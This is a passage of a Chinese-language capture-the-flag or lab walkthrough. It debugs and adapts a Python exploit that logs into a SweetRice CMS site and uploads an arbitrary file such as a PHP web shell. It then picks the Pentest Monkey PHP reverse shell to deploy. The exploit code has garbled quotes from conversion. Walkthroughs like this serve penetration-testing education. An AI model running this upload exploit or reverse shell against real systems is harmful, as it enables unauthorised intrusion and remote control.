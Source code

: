 所以我决定运行脚本，并得到以下错误:

```
[ … snip … ]Enter The Target URL(Example : localhost.com) : http://<target ip address>/content/
Traceback (most recent call last):
 File “exploit.py”, line 37, in <module>
 host = input(“Enter The Target URL(Example : localhost.com) : “)
 File “<string>”, line 1
 http://<target ip address>/content/
 ^
SyntaxError: invalid syntax
```

好吧。让我们来看看源代码:

```
[ ... snip ... ]# Get Host & User & Pass & filename
host = input(“Enter The Target URL(Example : localhost.com) : “)
username = input(“Enter Username : “)
password = input(“Enter Password : “)
filename = input(“Enter FileName (Example:.htaccess,shell.php5,index.html) : “)
file = {‘upload[]’: open(filename, ‘rb’)}payload = {
    ‘user’:username,
    ‘passwd’:password,
    ‘rememberMe’:’’
}with session() as r:
    login = r.post(‘http://' + host + ‘/as/?type=signin’, data=payload)
    success = ‘Login success’
    if login.status_code == 200:
        print(“[+] Sending User&Pass…”)
            if login.text.find(success) > 1:
                print(“[+] Login Succssfully…”)
            else:
               print(“[-] User or Pass is incorrent…”)
               print(“Good Bye…”)
               exit()
               pass
            pass
    uploadfile = r.post(‘[http://’](/') + host + ‘/as/?type=media_center&mode=upload’, files=file)
    if uploadfile.status_code == 200:
        print(“[+] File Uploaded…”)
        print(“[+] URL : http://” + host + “/attachment/” + filename)
        pass
```

需要做出两个重要的改变:

*   首先，当脚本要求`host`、`username`、`password`和`filename`时，需要将`input()`函数改为`raw_input()`
*   第二，输入`host`时，只放入`<target ip address>/<sweetrice directory>`减去`http://`位。该脚本的作者已经设置发送带有`http://`前缀的 web 请求，添加另一个“http://”将会混淆漏洞利用脚本。

现在我只需要选择和配置一个 web shell。我会选 *Pentest Monkey 的反壳*，它位于:

`/usr/share/webshells/php/php-reverse-shell.php`
